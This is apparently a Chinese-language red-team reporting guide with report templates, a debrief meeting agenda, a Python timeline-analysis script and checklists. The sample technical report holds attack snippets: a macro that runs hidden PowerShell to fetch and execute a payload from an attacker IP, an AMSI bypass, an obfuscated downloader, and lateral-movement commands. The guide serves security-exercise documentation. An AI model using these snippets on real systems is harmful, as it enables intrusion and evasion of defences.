

# 报告与复盘 (Reporting)

## 报告模板

### 红队演练报告模板

#### 执行摘要模板
```markdown
# 红队演练执行摘要

## 演练概述
- **演练名称**: [演练名称]
- **演练时间**: [开始时间] - [结束时间]
- **演练目标**: [主要目标描述]
- **演练范围**: [范围描述]
- **参与团队**: 红队、蓝队、紫队

## 关键发现
### 高危风险（Critical）
1. **[风险标题]**
   - **描述**: [风险描述]
   - **影响**: [业务影响]
   - **建议**: [修复建议]

### 中高风险（High）
1. **[风险标题]**
   - **描述**: [风险描述]
   - **影响**: [业务影响]
   - **建议**: [修复建议]

### 中等风险（Medium）
1. **[风险标题]**
   - **描述**: [风险描述]
   - **影响**: [业务影响]
   - **建议**: [修复建议]

## 攻击路径总结
[攻击路径图和描述]

## 检测与响应评估
- **检测时间**: 平均[TTX]分钟
- **响应时间**: 平均[TTR]分钟
- **修复时间**: 平均[TTF]分钟

## 成熟度评估
- **预防能力**: [评分]/10
- **检测能力**: [评分]/10
- **响应能力**: [评分]/10
- **恢复能力**: [评分]/10

## 主要建议
1. **[优先级1]**: [具体建议]
2. **[优先级2]**: [具体建议]
3. **[优先级3]**: [具体建议]

## 后续行动
- **即时行动**: [即时修复建议]
- **短期行动**: [1-3个月内]
- **长期行动**: [3-12个月内]
```

#### 技术报告模板
```markdown
# 红队技术报告

## 1. 演练方法论

### 1.1 MITRE ATT&CK映射
| 战术 | 技术ID | 技术名称 | 使用频率 | 成功率 |
|------|--------|----------|----------|--------|
| 初始访问 | T1566.001 | 钓鱼附件 | 高 | 85% |
| 执行 | T1059.001 | PowerShell | 高 | 90% |
| 持久化 | T1547.001 | 注册表运行键 | 中 | 75% |
| 权限提升 | T1055 | 进程注入 | 中 | 80% |
| 防御规避 | T1027 | 混淆文件或信息 | 高 | 85% |
| 凭证访问 | T1003.001 | LSASS内存 | 高 | 95% |
| 发现 | T1018 | 远程系统发现 | 高 | 95% |
| 横向移动 | T1021.002 | SMB/Windows管理员共享 | 高 | 90% |
| 收集 | T1005 | 本地数据收集 | 高 | 95% |
| 渗出 | T1041 | 通过C2通道渗出 | 高 | 90% |

### 1.2 攻击链分析


## 2. 详细发现

### 2.1 初始访问阶段
#### 钓鱼攻击
- **攻击向量**: 鱼叉式钓鱼邮件
- **目标用户**: 财务部门员工
- **成功率**: 3/10 (30%)
- **绕过措施**: 
  - 邮件网关过滤
  - 沙箱检测
  - 用户安全意识

#### 技术细节
```powershell
# 钓鱼邮件头部分析
Received: from mail.attacker.com ([192.168.1.100])
From: CEO <ceo@company.com>
Subject: Urgent: Q4 Financial Review
Attachment: Q4_Financial_Review.docm

# 恶意宏代码片段
Sub AutoOpen()
    Shell "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -Command " & _
          "IEX(New-Object Net.WebClient).DownloadString('http://192.168.1.100:8080/payload.ps1')"
End Sub
```

### 2.2 执行阶段
#### PowerShell利用
- **技术**: AMSI绕过 + 混淆
- **检测绕过**: 4/5 安全产品
- **持久化**: 计划任务
- **C2通信**: HTTPS + 域前置

#### 代码示例
```powershell
# AMSI绕过技术
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# 混淆的PowerShell下载器
$v1 = 'Ne' + 'w-Obj' + 'ect'; $v2 = 'Net' + '.' + 'Web' + 'Client'; 
$wc = & $v1 $v2; $wc.DownloadString('https://cdn.cloudflare.com/payload.ps1') | IEX
```

### 2.3 权限提升阶段
#### 内核漏洞利用
- **CVE**: CVE-2021-1732
- **受影响系统**: Windows 10 1909
- **利用成功率**: 100%
- **权限提升**: SYSTEM

#### 服务配置错误
- **发现**: 12个服务配置错误
- **可利用**: 3个服务
- **提权方法**: 服务二进制替换

### 2.4 横向移动阶段
#### AD侦察
- **工具**: BloodHound + SharpHound
- **发现路径**: 6条到域管的最短路径
- **关键发现**: 服务账户过度权限

#### 横向移动技术
```bash
# PSExec横向移动
psexec.py CORP/administrator:hash@192.168.1.10 "whoami"

# WMI横向移动
wmic /node:192.168.1.10 process call create "cmd.exe /c whoami"

# DCOM横向移动
$com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39')
$obj = [Activator]::CreateInstance($com)
$obj.Document.Application.ShellExecute("cmd.exe","/c whoami","","",0)
```

### 2.5 数据收集与渗出
#### 收集的数据类型
- **用户凭证**: 127个NTLM哈希
- **敏感文件**: 2.3GB文档
- **数据库**: 客户记录表
- **配置信息**: 网络拓扑图

#### 渗出统计
| 日期 | 数据量 | 方法 | 成功率 |
|------|--------|------|--------|
| 第1天 | 500MB | HTTPS | 100% |
| 第2天 | 1.2GB | DNS隧道 | 95% |
| 第3天 | 600MB | 云存储 | 100% |

## 3. 检测与响应分析

### 3.1 检测时间线
```
时间轴:
T+0min   : 钓鱼邮件发送
T+15min  : 用户点击附件
T+18min  : 恶意PowerShell执行
T+20min  : C2通信开始
T+45min  : 权限提升成功
T+60min  : 横向移动开始
T+120min : 域控制器访问
T+180min : 数据渗出开始
T+240min : 演练结束
```

### 3.2 安全产品绕过
#### EDR绕过
- **产品**: CrowdStrike, SentinelOne, Microsoft Defender
- **绕过方法**: 内存加密 + API混淆
- **成功率**: 85%

#### 网络检测绕过
- **产品**: Suricata, Zeek, Darktrace
- **绕过方法**: HTTPS + 域前置
- **成功率**: 90%

### 3.3 蓝队响应评估
#### 检测能力
- **告警数量**: 156个
- **有效告警**: 23个
- **误报率**: 85%
- **平均检测时间**: 45分钟

#### 响应时间
- **TTX (Time to Detect)**: 45分钟
- **TTR (Time to Respond)**: 2小时
- **TTF (Time to Fix)**: 4小时

## 4. 风险评估

### 4.1 风险矩阵
| 风险等级 | 数量 | 百分比 | 示例 |
|----------|------|--------|------|
| Critical | 3 | 15% | 域管凭证泄露 |
| High | 8 | 40% | 无约束委派 |
| Medium | 7 | 35% | 服务账户弱密码 |
| Low | 2 | 10% | 信息泄露 |

### 4.2 业务影响评估
#### 财务影响
- **直接损失**: $500K (数据恢复)
- **间接损失**: $2M (业务中断)
- **合规成本**: $300K (监管报告)

#### 声誉影响
- **客户信任**: 中等影响
- **合作伙伴**: 轻微影响
- **媒体关注**: 高度关注

## 5. 技术建议

### 5.1 即时修复（Critical）
1. **重置所有域管凭证**
2. **禁用无约束委派**
3. **更新所有服务账户密码**
4. **部署LAPS解决方案**

### 5.2 短期改进（1-3个月）
1. **实施EDR增强检测**
2. **部署网络分段**
3. **加强钓鱼防护**
4. **实施PAM解决方案**

### 5.3 长期改进（3-12个月）
1. **零信任架构实施**
2. **SOC能力建设**
3. **威胁狩猎计划**
4. **安全意识培训"
```

---

## 复盘会议

### 复盘会议议程

#### 会议前准备
```markdown
# 红队演练复盘会议准备清单

## 会议信息
- **会议时间**: [具体时间]
- **会议时长**: 2-3小时
- **参会人员**: 
  - 红队代表
  - 蓝队代表
  - 紫队代表
  - 管理层代表
  - 技术负责人

## 准备材料
### 红队准备
- [ ] 详细技术报告
- [ ] 时间线记录
- [ ] 攻击路径图
- [ ] 工具使用记录
- [ ] 遇到的问题总结

### 蓝队准备
- [ ] 检测日志分析
- [ ] 响应时间记录
- [ ] 告警统计分析
- [ ] 响应过程记录
- [ ] 改进建议

### 紫队准备
- [ ] 整体评估报告
- [ ] 成熟度评分
- [ ] 对比分析
- [ ] 建议汇总
```

#### 会议流程
```markdown
# 红队演练复盘会议流程

## 1. 开场（10分钟）
- 会议主持人开场
- 演练目标回顾
- 会议规则说明

## 2. 红队汇报（30分钟）
### 2.1 攻击路径回顾
- 初始访问方法
- 权限提升过程
- 横向移动路径
- 数据收集与渗出

### 2.2 技术难点分享
- 绕过技术细节
- 遇到的问题
- 解决方案

### 2.3 成功因素分析
- 哪些技术最有效
- 哪些防御被绕过
- 时间线关键节点

## 3. 蓝队汇报（30分钟）
### 3.1 检测能力评估
- 告警时间线
- 检测工具表现
- 误报率分析

### 3.2 响应过程回顾
- 响应时间分析
- 决策过程记录
- 协调沟通情况

### 3.3 防御效果评估
- 成功阻止的攻击
- 检测到的异常
- 响应措施效果

## 4. 紫队分析（20分钟）
### 4.1 整体评估
- 成熟度评分
- 对比分析
- 趋势分析

### 4.2 关键发现
- 主要弱点
- 改进机会
- 最佳实践

## 5. 讨论环节（40分钟）
### 5.1 技术讨论
- 攻击技术有效性
- 防御措施充分性
- 检测能力充足性

### 5.2 流程讨论
- 响应流程效率
- 沟通机制效果
- 决策过程质量

### 5.3 改进建议
- 短期改进措施
- 长期改进计划
- 资源需求评估

## 6. 行动计划（20分钟）
### 6.1 即时行动
- 漏洞修复
- 配置变更
- 密码重置

### 6.2 短期计划
- 1个月内完成事项
- 责任分配
- 时间节点

### 6.3 长期计划
- 3-12个月目标
- 预算需求
- 里程碑设置

## 7. 总结（10分钟）
- 关键结论
- 后续跟进
- 下次演练计划"
```

### 时间线分析

#### 攻击时间线工具
```python
# timeline_analyzer.py
import datetime
import json
import matplotlib.pyplot as plt
import matplotlib.dates as mdates
from collections import defaultdict

class TimelineAnalyzer:
    def __init__(self):
        self.events = []
        self.time_metrics = {}
    
    def add_event(self, timestamp, event_type, description, actor="RedTeam"):
        """添加事件到时间线"""
        event = {
            'timestamp': timestamp,
            'type': event_type,
            'description': description,
            'actor': actor
        }
        self.events.append(event)
    
    def calculate_time_metrics(self):
        """计算时间指标"""
        if not self.events:
            return {}
        
        # 按时间排序
        sorted_events = sorted(self.events, key=lambda x: x['timestamp'])
        
        # 计算关键时间指标
        metrics = {
            'total_duration': None,
            'attack_phases': defaultdict(list),
            'detection_times': defaultdict(list),
            'response_times': defaultdict(list)
        }
        
        # 计算总时长
        start_time = sorted_events[0]['timestamp']
        end_time = sorted_events[-1]['timestamp']
        metrics['total_duration'] = (end_time - start_time).total_seconds() / 3600  # 小时
        
        # 按阶段分组
        for event in sorted_events:
            phase = self.determine_attack_phase(event['type'])
            metrics['attack_phases'][phase].append(event)
        
        # 计算检测时间
        redteam_events = [e for e in sorted_events if e['actor'] == 'RedTeam']
        blueteam_events = [e for e in sorted_events if e['actor'] == 'BlueTeam']
        
        for rt_event in redteam_events:
            # 找到对应的蓝队检测事件
            corresponding_bt = self.find_corresponding_detection(rt_event, blueteam_events)
            if corresponding_bt:
                detection_time = (corresponding_bt['timestamp'] - rt_event['timestamp']).total_seconds() / 60  # 分钟
                metrics['detection_times'][rt_event['type']].append(detection_time)
        
        self.time_metrics = metrics
        return metrics
    
    def determine_attack_phase(self, event_type):
        """确定攻击阶段"""
        phase_mapping = {
            'Initial_Access': ['phishing', 'exploit', 'external_remote'],
            'Execution': ['powershell', 'wmi', 'psexec', 'macro'],
            'Persistence': ['registry', 'scheduled_task', 'service'],
            'Privilege_Escalation': ['exploit', 'token_impersonation'],
            'Defense_Evasion': ['amsi_bypass', 'process_injection', 'obfuscation'],
            'Credential_Access': ['mimikatz', 'hash_dump', 'kerberoasting'],
            'Discovery': ['network_scan', 'ad_recon', 'share_enumeration'],
            'Lateral_Movement': ['smb', 'wmi', 'rdp', 'dcom'],
            'Collection': ['file_collection', 'screenshot', 'audio_capture'],
            'Exfiltration': ['dns_tunnel', 'https_exfil', 'cloud_upload']
        }
        
        for phase, types in phase_mapping.items():
            if any(t in event_type.lower() for t in types):
                return phase
        
        return 'Unknown'
    
    def find_corresponding_detection(self, redteam_event, blueteam_events):
        """找到对应的检测事件"""
        # 简单的匹配逻辑：时间相近且类型相关
        for bt_event in blueteam_events:
            time_diff = (bt_event['timestamp'] - redteam_event['timestamp']).total_seconds()
            
            # 检测事件发生在攻击事件之后，且时间差在合理范围内（0-120分钟）
            if 0 < time_diff < 7200:  # 2小时
                # 检查事件类型是否相关
                if self.are_events_related(redteam_event['type'], bt_event['type']):
                    return bt_event
        
        return None
    
    def are_events_related(self, rt_type, bt_type):
        """判断事件是否相关"""
        # 简单的关联规则
        related_pairs = [
            ('powershell', 'process_creation'),
            ('mimikatz', 'credential_access'),
            ('lateral_movement', 'network_connection'),
            ('exfiltration', 'data_transfer'),
            ('persistence', 'registry_modification')
        ]
        
        for rt_pattern, bt_pattern in related_pairs:
            if rt_pattern in rt_type.lower() and bt_pattern in bt_type.lower():
                return True
        
        return False
    
    def visualize_timeline(self, output_file='timeline.png'):
        """可视化时间线"""
        if not self.events:
            print("[!] No events to visualize")
            return
        
        # 按时间排序
        sorted_events = sorted(self.events, key=lambda x: x['timestamp'])
        
        # 准备数据
        times = [event['timestamp'] for event in sorted_events]
        phases = [self.determine_attack_phase(event['type']) for event in sorted_events]
        actors = [event['actor'] for event in sorted_events]
        
        # 创建图形
        fig, (ax1, ax2) = plt.subplots(2, 1, figsize=(15, 10), sharex=True)
        
        # 时间线图表
        colors = {'RedTeam': 'red', 'BlueTeam': 'blue', 'PurpleTeam': 'purple'}
        
        for i, (time, actor, event) in enumerate(zip(times, actors, sorted_events)):
            ax1.scatter(time, 0, color=colors.get(actor, 'gray'), s=100, alpha=0.7)
            ax1.annotate(event['type'], (time, 0), xytext=(10, 10), 
                        textcoords='offset points', fontsize=8, rotation=45)
        
        ax1.set_ylabel('Event Timeline')
        ax1.set_title('Red Team Exercise Timeline')
        ax1.grid(True, alpha=0.3)
        
        # 阶段分布图
        phase_counts = defaultdict(int)
        for phase in phases:
            phase_counts[phase] += 1
        
        phases_list = list(phase_counts.keys())
        counts_list = list(phase_counts.values())
        
        ax2.bar(phases_list, counts_list, color='skyblue', alpha=0.7)
        ax2.set_ylabel('Event Count')
        ax2.set_title('Attack Phase Distribution')
        ax2.tick_params(axis='x', rotation=45)
        
        # 格式化x轴（时间）
        ax1.xaxis.set_major_formatter(mdates.DateFormatter('%Y-%m-%d %H:%M'))
        ax1.xaxis.set_major_locator(mdates.HourLocator(interval=2))
        fig.autofmt_xdate()
        
        plt.tight_layout()
        plt.savefig(output_file, dpi=300, bbox_inches='tight')
        print(f"[+] Timeline visualization saved to {output_file}")
    
    def generate_timetd_report(self):
        """生成TTX/TTR/TTF报告"""
        if not self.time_metrics:
            self.calculate_time_metrics()
        
        report = {
            'summary': {
                'total_events': len(self.events),
                'total_duration_hours': self.time_metrics['total_duration'],
                'redteam_events': len([e for e in self.events if e['actor'] == 'RedTeam']),
                'blueteam_events': len([e for e in self.events if e['actor'] == 'BlueTeam'])
            },
            'detection_metrics': {
                'average_detection_time_minutes': None,
                'median_detection_time_minutes': None,
                'detection_times_by_phase': {}
            },
            'phase_analysis': {
                'phase_distribution': {},
                'phase_durations': {}
            },
            'recommendations': []
        }
        
        # 计算检测时间统计
        all_detection_times = []
        for times in self.time_metrics['detection_times'].values():
            all_detection_times.extend(times)
        
        if all_detection_times:
            report['detection_metrics']['average_detection_time_minutes'] = sum(all_detection_times) / len(all_detection_times)
            report['detection_metrics']['median_detection_time_minutes'] = sorted(all_detection_times)[len(all_detection_times) // 2]
            report['detection_metrics']['detection_times_by_phase'] = {
                phase: {
                    'average': sum(times) / len(times),
                    'min': min(times),
                    'max': max(times)
                } for phase, times in self.time_metrics['detection_times'].items()
            }
        
        # 阶段分析
        for phase, events in self.time_metrics['attack_phases'].items():
            if events:
                report['phase_analysis']['phase_distribution'][phase] = len(events)
                
                # 计算阶段持续时间
                phase_times = [e['timestamp'] for e in events]
                if len(phase_times) > 1:
                    duration = (max(phase_times) - min(phase_times)).total_seconds() / 60
                    report['phase_analysis']['phase_durations'][phase] = duration
        
        # 生成建议
        if report['detection_metrics']['average_detection_time_minutes']:
            if report['detection_metrics']['average_detection_time_minutes'] > 60:
                report['recommendations'].append({
                    'priority': 'HIGH',
                    'category': 'Detection',
                    'description': 'Average detection time exceeds 1 hour. Consider improving real-time monitoring capabilities.',
                    'metric': f"{report['detection_metrics']['average_detection_time_minutes']:.1f} minutes"
                })
        
        if report['summary']['blueteam_events'] < report['summary']['redteam_events'] * 0.5:
            report['recommendations'].append({
                'priority': 'HIGH',
                'category': 'Detection',
                'description': 'Blue team detected less than 50% of red team activities. Improve detection coverage.',
                'metric': f"{report['summary']['blueteam_events']}/{report['summary']['redteam_events']} events"
            })
        
        return report
```

---

## 实战检查清单

### 报告准备
- [ ] 技术报告已编写
- [ ] 执行摘要已完成
- [ ] 风险矩阵已创建
- [ ] 攻击路径图已绘制
- [ ] 时间线已分析

### 复盘会议
- [ ] 会议议程已制定
- [ ] 参会人员已确认
- [ ] 会议材料已准备
- [ ] 时间线已可视化
- [ ] 行动计划已制定

### 后续跟进
- [ ] 即时修复已实施
- [ ] 短期计划已制定
- [ ] 长期计划已规划
- [ ] 资源需求已评估
- [ ] 后续演练已安排